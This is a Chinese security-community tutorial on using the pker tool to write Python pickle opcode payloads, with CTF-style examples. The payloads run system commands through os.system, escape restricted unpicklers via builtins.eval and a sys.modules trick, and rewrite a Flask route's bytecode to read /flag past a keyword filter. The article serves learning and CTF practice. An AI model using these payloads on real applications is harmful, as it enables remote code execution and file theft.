

# 探究Pker对opcode字节码的利用-先知社区

> **来源**: https://xz.aliyun.com/news/16455  
> **文章ID**: 16455

---

## Pker前言

`pickle` 使用 **操作码（opcode）** 来定义序列化过程中的指令和格式。操作码是表示某些操作（如存储对象、读取对象等）的指令，它们以字节的形式存储在 pickle 数据流中。每个操作码对应一个 Python 对象类型或序列化操作。

`pker` 是一个用于生成 `pickle` 操作码（`opcode`）的工具，通常可以帮助用户更方便地编写 pickle 操作码。它可能是一个用于简化操作码编写和调试的辅助工具。通过使用 `pker`，用户可以方便地构造 pickle 的二进制流，而不需要手动编写每个操作码。

## Pker的opcode转换使用

`pker` 的核心是通过一些特殊的函数（`GLOBAL`、`INST` 和 `OBJ`）来帮助你操作和反序列化 Python 对象，尤其是在涉及到 `pickle` 时。Python 中的类、模块、属性等都可以视作对象，这使得通过反射和序列化技术进行高级操作变得更加灵活。

```
以下module都可以是包含`.`的子module
调用函数时，注意传入的参数类型要和示例一致
对应的opcode会被生成，但并不与pker代码相互等价

GLOBAL
对应opcode：b'c'
获取module下的一个全局对象（没有import的也可以，比如下面的os）：
GLOBAL('os', 'system')
输入：module,instance(callable、module都是instance)  

INST
对应opcode：b'i'
建立并入栈一个对象（可以执行一个函数）：
INST('os', 'system', 'ls')  
输入：module,callable,para 

OBJ
对应opcode：b'o'
建立并入栈一个对象（传入的第一个参数为callable，可以执行一个函数））：
OBJ(GLOBAL('os', 'system'), 'ls') 
输入：callable,para

xxx(xx,...)
对应opcode：b'R'
使用参数xx调用函数xxx（先将函数入栈，再将参数入栈并调用）

li[0]=321
或
globals_dic['local_var']='hello'
对应opcode：b's'
更新列表或字典的某项的值

xx.attr=123
对应opcode：b'b'
对xx对象进行属性设置

return
对应opcode：b'0'
出栈（作为pickle.loads函数的返回值）：
return xxx # 注意，一次只能返回一个对象或不返回对象（就算用逗号隔开，最后也只返回一个元组）

```

## 关于 `pker` 中的 `opcode` 限制

在 `pker` 中，**你不能直接通过索引或属性访问来获取值，但可以将值赋给它们**

```
# 错误：不允许直接通过索引或点号获取值
value = obj.attribute  # 不支持
value = my_dict[key]  # 不支持

# 正确：使用函数进行获取
value = getattr(obj, 'attribute')  # 使用 getattr 来获取属性
value = my_dict.get(key)  # 使用 dict.get 来获取字典中的值

```

但是，当进行赋值时，`pker` 不会有限制。这意味着你可以在反序列化过程中修改对象的状态。例如：

```
# 赋值操作是支持的
setattr(obj, 'attribute', new_value)  # 修改对象属性
my_dict[key] = new_value  # 修改字典中的值

```

* **不能将索引、字典索引、点号取对象属性作为左值**：这是因为 `pker` 在处理对象和数据时，受限于其 `opcode` 操作。通常，`opcode` 操作是在 `pickle` 反序列化时执行的，它控制着如何根据序列化的数据恢复原始对象。由于 `opcode` 操作本身的功能问题，不能直接通过索引或点号（即属性访问）进行赋值。
* **可以通过函数获取值**：例如，想要通过 `getattr` 获取对象的属性，或者通过 `dict.get()` 来获取字典的值。这是 `pker` 处理获取操作的方式。

## Pker的实例使用

### 命令执行

#### `b'R'` 调用机制

通过 `b'R'` 调用，可以看到以下代码模式：

```
s = 'whoami'
system = GLOBAL('os', 'system')
system(s)  # `b'R'` 调用
return

```

所以，**`b'R'` 调用**的机制是在通过 `GLOBAL` 获取模块中的特定函数后，直接调用这个函数，并传递相应的参数。

#### `b'i'` 调用机制

```
INST('os', 'system', 'whoami')

```

* **`INST('os', 'system', 'whoami')`**：这个调用通过 `INST` 来创建一个实例。`INST` 函数是用来实例化对象或获取一个类实例的。这里，`'os'` 是模块，`'system'` 是模块中的一个方法。
* 在这个例子中，它创建了 `os.system` 方法的实例，然后将 `'whoami'` 作为参数传递给该方法。

可以理解为 `INST` 是一种间接的方式来动态实例化并执行模块中的方法。

#### `b'c'` 和 `b'o'` 调用机制

```
OBJ(GLOBAL('os', 'system'), 'whoami')

```

* **`GLOBAL('os', 'system')`**：这和前面的调用类似，`GLOBAL` 会返回 `os.system` 函数。
* **`OBJ(..., 'whoami')`**：然后通过 `OBJ` 函数执行该方法，并传递参数 `'whoami'`。这种机制类似于对对象方法的调用。

这里 `OBJ` 用来访问对象的方法，并执行相应的操作。

#### 多参数调用机制

你提到的多参数调用机制：

```
INST('[module]', '[callable]'[, par0, par1...])
OBJ(GLOBAL('[module]', '[callable]')[, par0, par1...])

```

### 实例化对象的使用

* 实例化对象是一种特殊的函数执行  
  ```python  
  animal = INST('**main**', 'Animal','1','2')  
  return animal

# 或者

animal = OBJ(GLOBAL('**main**', 'Animal'), '1','2')  
return animal

```
- 其中，python文件源码：
```python
class Animal:

    def __init__(self, name, category):
        self.name = name
        self.category = category
```

* 也可以先实例化再赋值：

```
animal = INST('__main__', 'Animal')
animal.name='1'
animal.category='2'
return animal

```

### 全局变量覆盖

* 覆盖直接由执行文件引入的`secret`模块中的`name`与`category`变量：

  ```
  secret=GLOBAL('__main__', 'secret') 
  # python的执行文件被解析为__main__对象，secret在该对象从属下
  secret.name='1'
  secret.category='2'

  ```
* 覆盖引入模块的变量：

```
game = GLOBAL('guess_game', 'game')
game.curr_ticket = '123'

```

## 实战使用

### builtins的获取使用

find\_class内容如下

```
class RestrictedUnpickler(pickle.Unpickler):
    blacklist = {'eval', 'exec', 'execfile', 'compile', 'open', 'input', '__import__', 'exit'}

    def find_class(self, module, name):
        # Only allow safe classes from builtins.
        if module == "builtins" and name not in self.blacklist:
            return getattr(builtins, name)
        # Forbid everything else.
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" %
                                     (module, name))

```

pker代码如下

```
getattr=GLOBAL('builtins','getattr')
dict=GLOBAL('builtins','dict')
dict_get=getattr(dict,'get')
glo_dic=GLOBAL('builtins','globals')()
builtins=dict_get(glo_dic,'builtins')
eval=getattr(builtins,'eval')
eval('print("123")')
return

```

### sys模块的利用

题目的`find_class`只允许`sys`模块，并且对象名中不能有`.`号。意图很明显，限制子模块，**只允许一级模块**

find\_class源码如下

```
whitelist = ['sys']
class RestrictedUnpickler(pickle.Unpickler):

    def find_class(self, module, name):
        if module not in whitelist or '.' in name:
            raise KeyError('The pickle is spoilt :(')
        return pickle.Unpickler.find_class(self, module, name)


def loads(s):
    """Helper function analogous to pickle.loads()."""
    return RestrictedUnpickler(io.BytesIO(s)).load()


dumps = pickle.dumps

```

`sys`模块有一个字典对象`modules`，它包含了运行时所有py程序所导入的所有模块，并决定了python引入的模块，如果字典被改变，引入的模块就会改变。`modules`中还包括了`sys`本身。我们可以利用自己包含自己这点绕过限制，具体过程为：

1. 由于`sys`自身被包含在自身的子类里，我们可以利用这点使用`s`赋值，向后递进一级，引入`sys.modules`的子模块：`sys.modules['sys']=sys.modules`，此时就相当于`sys=sys.modules`。这样我们就可以利用原`sys.modules`下的对象了，即`sys.modules.xxx`。
2. 首先获取`modules`的`get`函数，然后类似于上一步，再使用`s`把`modules`中的`sys`模块更新为`os`模块：`sys['sys']=sys.get('os')`。
3. 使用`c`获取`system`，之后就可以执行系统命令了。

pker代码为：

```
modules=GLOBAL('sys', 'modules')  
modules['sys']=modules  
modules_get=GLOBAL('sys', 'get')  
os=modules_get('os')  
modules['sys']=os  
system=GLOBAL('sys', 'system')  
system('whoami')  
return

```

### 修改字节码变量覆盖

源码中有读app.py的函数路由，我们可以通过**修改字节码来进行文件覆盖**

```
@app.route('/ppicklee', methods=['POST'])
def ppicklee():
    data = request.form['data']

    sys.modules['os'] = "not allowed"
    sys.modules['sys'] = "not allowed"
    try:

        pickle_data = base64.b64decode(data)
        for i in {"os", "system", "eval", 'setstate', "globals", 'exec', '__builtins__', 'template', 'render', '\\',
                 'compile', 'requests', 'exit',  'pickle',"class","mro","flask","sys","base","init","config","session"}:
            if i.encode() in pickle_data:
                return i+" waf !!!!!!!"

        pickle.loads(pickle_data)
        return "success pickle"
    except Exception as e:
        return "fail pickle"


@app.route('/src')
def src():
    return  open("app.py", "r",encoding="utf-8").read()

```

使用types的CodeType修改常量字节码，修改函数读取的文件

```
types.CodeType(oCode.co_argcount, 
                                oCode.co_posonlyargcount, 
                                oCode.co_kwonlyargcount, 
                                oCode.co_nlocals, 
                                oCode.co_stacksize, 
                                oCode.co_flags,
                                oCode.co_code, 
                                oCode.co_consts,   # 需要的
                                oCode.co_names, 
                                oCode.co_varnames,
                                oCode.co_filename,
                                oCode.co_name, 
                                oCode.co_firstlineno, 
                                oCode.co_lnotab,
                                oCode.co_freevars,
                                oCode.co_cellvars,)
```

code.co\_consts是我们需要的

```
def src():
    return  open("app.py", "r",encoding="utf-8").read()

code = src.__code__.co_consts
print(oCode)
```

实际需要执行的代码

```
def src():
    return  open("app.py", "r",encoding="utf-8").read()

oCode = src.__code__
src.__code__= types.CodeType(oCode.co_argcount, 
                                oCode.co_posonlyargcount, 
                                oCode.co_kwonlyargcount, 
                                oCode.co_nlocals, 
                                oCode.co_stacksize, 
                                oCode.co_flags,
                                oCode.co_code, 
                                (None, '/flag', 'r', 'utf-8', ('encoding',))
                                oCode.co_names, 
                                oCode.co_varnames,
                                oCode.co_filename,
                                oCode.co_name, 
                                oCode.co_firstlineno, 
                                oCode.co_lnotab,
                                oCode.co_freevars,
                                oCode.co_cellvars,)

```

pker编写如下

```
getattr=GLOBAL('builtins', 'getattr')
src=GLOBAL('__main__','src')
setattr=GLOBAL('builtins', 'setattr')
codetype=GLOBAL('types','CodeType')
g2 = getattr(src,"__code__")
g3 = getattr(g2,"co_argcount")
g4 = getattr(g2,"co_argcount")
g5 = getattr(g2,"co_kwonlyargcount")
g6 = getattr(g2,"co_nlocals")
g7 = getattr(g2,"co_stacksize")
g8 = getattr(g2,"co_flags")
g9 = getattr(g2,"co_code")
g10 = (None, '/flag', 'r', 'utf-8', ('encoding',))#g10 = getattr(g2,"co_consts")
g11 = getattr(g2,"co_names")
g12 = getattr(g2,"co_varnames")
g13 = getattr(g2,"co_filename")
g14 = getattr(g2,"co_name")
g15 = getattr(g2,"co_firstlineno")
g16 = getattr(g2,"co_lnotab")
g17 = getattr(g2,"co_freevars")
g18 = getattr(g2,"co_cellvars")
g19 = codetype(g3,g4,g5,g6,g7,g8,g9,g10,g11,g12,g13,g14,g15,g16,g17,g18)
setattr(src,"__code__",g19)
return

```

成功覆盖app.py拿到了文件内容


